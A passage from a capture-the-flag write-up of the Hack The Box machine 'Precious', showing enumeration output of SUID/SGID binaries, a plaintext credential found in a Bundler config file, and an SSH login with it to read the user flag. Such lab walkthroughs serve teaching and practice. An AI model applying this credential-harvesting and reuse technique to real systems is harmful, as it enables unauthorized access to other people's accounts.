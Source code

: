     -rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
    -rwsr-xr-x 1 root root 55K Jan 20  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
    -rwsr-xr-x 1 root root 35K Feb 26  2021 /usr/bin/fusermount
    -rwsr-xr-- 1 root messagebus 51K Oct  5 07:04 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 471K Jul  1 18:37 /usr/lib/openssh/ssh-keysign
    
    ╔══════════╣ SGID
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                         
    -rwxr-sr-x 1 root ssh 347K Jul  1 18:37 /usr/bin/ssh-agent                                                                                                                                               
    -rwxr-sr-x 1 root crontab 43K Feb 22  2021 /usr/bin/crontab
    -rwxr-sr-x 1 root shadow 31K Feb  7  2020 /usr/bin/expiry
    -rwxr-sr-x 1 root tty 35K Jan 20  2022 /usr/bin/wall
    -rwxr-sr-x 1 root shadow 79K Feb  7  2020 /usr/bin/chage
    -rwxr-sr-x 1 root shadow 38K Aug 26  2021 /usr/sbin/unix_chkpwd
    [...]
    /home/ruby/.bundle
    /home/ruby/.bundle/config
    [...]

Apparently, there's a lot of stuff to check, but once you start getting familiar with HTB machines, you also start to understand that, in most cases, the **CVEs** suggested by the tool aren't the solution. Leaving those aside and taking a quick look at the other clues, I'm immediately attracted to the **.bundle** folder (and the configuration file it contains), which is located in the _home_ of the user I'm connected to.

    cat .bundle/config
    ---
    BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

I told you it would be a simple BOX. Inside the file, I found credentials that seem to belong to the user who owns the flag. Fooled by the fact that the BOX is starting to look a little too simple, I try to identify the _password encryption algorithm_ with the **hashcat**... but that doesn't bring up anything. Almost disappointed and incredulous of what is going through my head, I tried to connect in **ssh** using the password as if it were unencrypted.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.189 - Precious (lin)/attack/hc]
    └─$ ssh henry@10.10.11.189
    The authenticity of host '10.10.11.189 (10.10.11.189)' can't be established.
    ED25519 key fingerprint is SHA256:1WpIxI8qwKmYSRdGtCjweUByFzcn0MSpKgv+AwWRLkU.
    This key is not known by any other names
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.11.189' (ED25519) to the list of known hosts.
    henry@10.10.11.189's password: 
    Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Mon Dec 12 13:42:09 2022 from 10.10.14.53
    -bash-5.1$ cat user.txt 
    c******************************a
